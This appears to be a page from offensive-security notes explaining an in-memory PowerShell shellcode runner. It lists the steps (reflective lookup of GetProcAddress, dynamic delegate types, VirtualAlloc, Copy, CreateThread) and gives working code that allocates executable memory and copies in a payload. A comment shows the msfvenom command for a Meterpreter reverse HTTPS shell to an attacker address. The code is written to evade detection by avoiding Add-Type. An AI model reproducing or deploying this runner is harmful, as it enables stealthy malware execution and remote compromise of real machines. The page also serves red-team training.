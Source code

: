 

### Reflectively using DelegateType (in Memory)

1. `lookupFunction` 👉🏻 to obtain a reference to the `System.dll` assembly's `GetModuleHandle` and `GetProcAddress` methods using `GetType` and `GetMethod` functions (aka the [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique).
2. `getDelegateType` 👉🏻 to define the argument types for the APIs [using a delegate type via Reflection](https://docs.microsoft.com/ru-ru/archive/blogs/joelpob/creating-delegate-types-via-reflection-emit) and return it.
3. `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
4. `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
5. `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
6. `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes.

{% code title="ShellcodeRunnerv2.ps1" %}
```powershell
function lookupFunction {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    # Building a DelegateType (doing it manually to avoid usage of Add-Type)
    ## create a custom assembly and define the module and type inside
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    ## set up the constructor
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## sets up the invoke method
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## invoke the constructor and return the delegation type
    return $type.CreateType()
}

# $VirtualAllocAddr = lookupFunction kernel32.dll VirtualAlloc
# $VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr])
# $VirtualAlloc =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
# $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunction kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
```